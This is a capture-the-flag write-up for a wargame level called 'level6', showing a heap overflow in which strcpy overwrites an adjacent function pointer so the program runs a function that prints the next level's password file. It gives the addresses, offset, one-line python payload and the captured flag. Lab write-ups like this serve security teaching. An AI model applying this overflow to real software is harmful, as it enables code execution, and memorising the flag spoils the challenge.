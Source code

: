 # level6

The executable does the following :

- `malloc(60)` into `var_one`
- `malloc(4)` into `var_two`
- Assign `m` to `var_two`
- `strcpy` `argv[1]` to `var_one`
- Run `var_two`

It's simple : we'll need to replace `var_two`'s value, `m`, with `n`, a function which runs `system("/bin/cat /home/user/level7/.pass");`, so it runs instead.

To do this, we'll exploit the `strcpy`, on the heap this time.

## The value

Cutter reveals the address of `n`, our spoofed value : `0x08048454`.

Formatted, this is `\x54\x84\x04\x08`.

## The addresses

By running the executable in `gdb`, breaking after the `malloc`s and running `p/x $eax`, we get the addresses :

- `var_one` is at `0x804a008`
- `var_two` is at `0x804a050`

`0x50 - 0x08 = 0x48 = 72`, so we'll need to write 72 characters after the beginning of `var_one`

# The exploit

We can do this fairly simply ; any buffer of `76+` characters will force `strcpy` to overwrite `var_two`. We run :

```
./level6 $(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')
```


## The flag

It works ! We get the `level6` flag :

```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
